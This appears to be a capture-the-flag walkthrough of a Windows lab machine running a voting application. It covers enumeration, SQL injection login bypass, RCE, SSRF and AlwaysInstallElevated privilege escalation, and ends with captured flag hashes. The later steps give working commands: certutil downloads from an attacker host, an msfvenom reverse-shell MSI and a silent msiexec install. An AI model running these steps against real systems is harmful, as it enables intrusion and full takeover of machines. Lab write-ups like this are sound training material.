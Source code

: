 **Skills Required**
Windows Enumeration
Web Enumeration
**Skills Learned**
Exploit modification
Server side request forgery
Applocker policies
Always install everything misconfiguration

-----------

**Step 1: Port 80 HTTP Scanning**

**Command:** 
```
whatweb http://10.10.10.239
```

**Explanation:** We start by using the `whatweb` tool to scan the HTTP service on port 80 of the target machine. This helps us gather initial information about the web application running on this port.

**Tags:** Port Scanning, whatweb

---

**Step 2: Web Application Fuzzing with Nmap**

**Command:** 
```
nmap --script http-enum -p80 10.10.10.239 -oN fuzzweb
```

**Explanation:** We employ `nmap` with the `http-enum` script to perform web application fuzzing on port 80. This helps us discover directories and potentially vulnerable endpoints.

**Tags:** Port Scanning, Vulnerability Scanning, nmap, Web Application Fuzzing

---

**Step 3: Exploiting SQL Injection**

**Explanation:** After discovering the "Authentication Bypass SQLi" vulnerability in the login panel of the "voting system," we use `Burp Suite` to analyze and manipulate the SQL injection request, exploiting it with a payload obtained from `searchsploit`.

**Tags:** SQL Injection, Burp Suite, Exploitation

---

**Step 4: Exploiting Remote Code Execution**

**Explanation:** We find a "remote code execution" vulnerability in the application. We can exploit it manually by uploading a malicious PHP file. Alternatively, we can automate the attack using a Python script found in `searchsploit`.

**Tags:** Remote Code Execution, Exploitation, Python Script

---

**Step 5: SSRF Attack**

**Explanation:** We notice a domain and subdomain on port 443. We add them to our hosts file to establish a connection. Then, by exploiting a potential SSRF vulnerability, we gain access to port 5000, which is otherwise restricted. We find admin credentials, which we use to log in to the voting application and attempt the remote code execution.

**Tags:** SSRF, Port Scanning, Exploitation

---

**Step 6: Privilege Escalation with Winpeas**

**Commands:**
```
# On Attacker's Machine
sudo python -m http.server 80

# On Victim's Machine
certutil.exe -f -urlcache -split http://10.10.14.2/winPeas.exe winpeas.exe
```

**Explanation:** We use the `winpeas` tool to scan the victim's machine for potential privilege escalation vulnerabilities. We download it using `certutil.exe`.

**Tags:** Privilege Escalation, Winpeas, Certutil

---

**Step 7: Abusing "AlwaysInstallElevated"**

**Explanation:** We identify the "AlwaysInstallElevated" setting in the Windows Registry. If it's set to 1 in HKLM and HKCU, we can abuse it for privilege escalation. This involves creating a malicious .msi file and executing it with `msiexec`.

**Tags:** Privilege Escalation, Registry Settings, msiexec

---

**Step 8: Creating a Malicious .msi File**

**Command:**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 --platform windows -a x64 -f msi -o reverse.msi
```

**Explanation:** We use `msfvenom` to generate a malicious .msi file that will establish a reverse shell connection to our attacker machine.

**Tags:** msfvenom, Payload Generation

---

**Step 9: Downloading and Installing the Malicious .msi**

**Commands:**
```
# On Attacker's Machine
sudo python -m http.server 80

# On Victim's Machine
certutil.exe -f -urlcache -split http://10.10.14.2/reverse.msi reverse.msi
```

**Explanation:** We serve the malicious .msi file from our attacker machine and download it on the victim's machine using `certutil.exe`.

**Tags:** Certutil, File Download

---

**Step 10: Gaining Administrator Access**

**Commands:**
```
# On Attacker's Machine
nc -nlvp 1234

# On Victim's Machine
msiexec /quiet /qn /i reverse.msi
```

**Explanation:** We set up a listener on our attacker machine and execute the downloaded .msi file on the victim's machine using `msiexec`, gaining administrator access.

**Tags:** Privilege Escalation, Reverse Shell

---
user flag 1eef3792b3eca549bd689af404afb435
root flag 460f37d2d0e6c0f859802e9ffbd5bd22